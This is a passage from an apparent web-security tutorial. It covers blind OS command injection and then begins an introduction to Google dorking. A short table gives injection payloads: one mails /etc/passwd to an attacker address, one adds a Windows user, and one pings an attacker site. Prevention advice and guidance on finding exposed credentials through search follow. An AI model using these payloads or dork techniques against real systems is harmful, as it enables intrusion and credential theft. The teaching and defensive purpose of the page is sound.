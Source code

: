Useful commands to keep in mind when exploiting a blind OS command injection:  
  
| Command                                            | Explanation                                 |
| -------------------------------------------------- | ------------------------------------------- |
| `file.txt;mail attacker@attacker.org </etc/passwd` | Emails the attacker the server’s passwords  |
| `file.txt \| net user /add "hacker"`               | Adds hacker to the Windows user database    |
| `file.txt;ping%20attacker_site`	             | Pings the attacker site                     |

**Prevention**  
  
If possible, applications should avoid incorporating user-controllable data into operating system commands. In almost every situation, there are safer alternative methods of performing server-level tasks, which cannot be manipulated to perform additional commands than the one intended.  
  
If it is considered unavoidable to incorporate user-supplied data into operating system commands, the following layers of defense should be used to prevent attacks:  
  
* The user data should be strictly validated. Ideally, a whitelist of specific accepted values should be used. Otherwise, only short alphanumeric strings should be accepted. Input containing any other data, including any conceivable shell metacharacter or whitespace, should be rejected.  
* Most web frameworks do provide their own set of APIs that have been thoroughly tested and should be used for input validation and interpretation (e.g. commands, SQL queries etc). There is no need to reinvent the wheel when there are safer alternatives.  
* The application should use command APIs that launch a specific process via its name and command-line parameters, rather than passing a command string to a shell interpreter that supports command chaining and redirection. For example, the Java API Runtime.exec and the ASP.NET API Process. Start do not support shell metacharacters.

# Google Hacking - Google Dorking

A Google Dork, also known as Google Dorking or Google hacking, is a valuable resource for security researchers. For the average person, Google is just a search engine used to find text, images, videos, and news. However, in the infosec world, Google is a useful hacking tool.  
  
## How would anyone use Google to hack websites?

While you can’t hack sites directly using Google, it has tremendous web-crawling capabilities: it can index almost anything within your website, including sensitive information. This means you could be exposing too much information about your web technologies, usernames, passwords, and general vulnerabilities without even knowing it.  
  
In other words: Google “Dorking” is the practice of using Google to find vulnerable web applications and servers by using native Google search engine capabilities.  
  
Google hacking search queries can be used to identify security vulnerabilities in web applications, gather information for arbitrary or individual targets, discover error messages disclosing sensitive information, discover files containing credentials and other sensitive data.  
  
Finding information using search engines is a skill which can be learned with training and using examples. [Google Hacking Database](https://www.exploit-db.com/google-hacking-database) is a great starting point.  
  